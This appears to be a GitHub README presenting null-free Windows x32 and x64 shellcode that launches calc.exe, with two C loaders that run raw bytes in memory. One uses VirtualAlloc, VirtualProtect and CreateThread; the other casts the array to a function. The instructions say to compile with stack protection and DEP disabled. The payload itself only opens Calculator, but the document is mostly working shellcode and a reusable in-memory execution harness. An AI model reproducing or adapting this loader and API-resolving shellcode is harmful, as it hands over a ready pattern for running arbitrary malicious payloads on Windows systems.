 # WinShellcode

Windows(x32-x64) null-free shellcode to pop calc.exe


Feel free to contact if any question...





To run it successfully in Visual Studio, you’ll have to compile it with some protections disabled:
Security Check: Disabled (/GS-)
Data Execution Prevention (DEP): No


##########################################################
```
//testing: x64
//len: 265

#include <windows.h>
void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
        "\x50\x53\x51\x52\x57\x56\x55\x54\x41\x50\x41\x51\x41\x52\x41\x53\x41\x54\x41\x55\x41\x56\x41\x57\x41\x57\x48\x83\xec\x20\x48\x31\xdb\x65\x4c\x8b\x63\x60\x4d\x8b\x64\x24\x18\x49\x8b\x74\x24\x20\x48\xad\x48\x96\x48\xad\x4c\x8b\x78\x20\x4d\x31\xe4\x45\x8b\x67\x3c\x4d\x01\xfc\x4d\x31\xf6\x45\x8b\xb4\x24\x88\x00\x00\x00\x4d\x01\xfe\x4d\x31\xe4\x45\x8b\x66\x20\x4d\x01\xfc\xeb\x77\x48\x31\xff\x41\x8b\x3c\x9c\x4c\x01\xff\x48\xa7\x74\x09\x48\xff\xc3\x48\x83\xee\x08\xeb\xe9\x48\x31\xf6\x48\x31\xff\x41\x8b\x76\x24\x4c\x01\xfe\x66\x8b\x3c\x5e\x48\x31\xf6\x41\x8b\x76\x1c\x4c\x01\xfe\x4d\x31\xf6\x44\x8b\x34\xbe\x4d\x01\xfe\xeb\x14\x48\x31\xd2\x48\x83\xc2\x0a\x48\x83\xec\x20\x41\xff\xd6\x48\x83\xc4\x20\xeb\x38\xe8\x1d\x00\x00\x00\x43\x3a\x5c\x57\x69\x6e\x64\x6f\x77\x73\x5c\x53\x79\x73\x74\x65\x6d\x33\x32\x5c\x63\x61\x6c\x63\x2e\x65\x78\x65\x00\x59\xeb\xc7\xe8\x08\x00\x00\x00\x57\x69\x6e\x45\x78\x65\x63\x00\x5e\xe9\x76\xff\xff\xff\x48\x83\xc4\x20\x41\x5f\x41\x5f\x41\x5e\x41\x5d\x41\x5c\x41\x5b\x41\x5a\x41\x59\x41\x58\x5c\x5d\x5e\x5f\x5a\x59\x5b\x58\xc3";
    unsigned int payload_len = 263;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}
```
############################################################
```
//testing: x32
//len: 193 byte

#include <stdio.h>

unsigned char sc[] = 	"\x50\x53\x51\x52\x57\x56\x55\x55\x89\xe5\x83\xec\x18\x31\xf6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6e\x45\x89\x65\xfc\x31\xf6\x64\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10\x89\x5d\xf8\x8b\x43\x3c\x01\xd8\x8b\x40\x78\x01\xd8\x8b\x48\x24\x01\xd9\x89\x4d\xf4\x8b\x78\x20\x01\xdf\x89\x7d\xf0\x8b\x50\x1c\x01\xda\x89\x55\xec\x8b\x50\x14\x31\xc0\x8b\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc\x8b\x3c\x87\x01\xdf\x66\x83\xc1\x08\xf3\xa6\x74\x0a\x40\x39\xd0\x72\xe5\x83\xc4\x28\xeb\x3f\x8b\x4d\xf4\x8b\x55\xec\x66\x8b\x04\x41\x8b\x04\x82\x01\xd8\x31\xd2\x52\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x68\x6d\x33\x32\x5c\x68\x79\x73\x74\x65\x68\x77\x73\x5c\x53\x68\x69\x6e\x64\x6f\x68\x43\x3a\x5c\x57\x89\xe6\x6a\x0a\x56\xff\xd0\x83\xc4\x48\x5d\x5e\x5f\x5a\x59\x5b\x58\xc3";

int main()
{
	((void(*)())sc)();
	return 0;
}
```
##########################################################
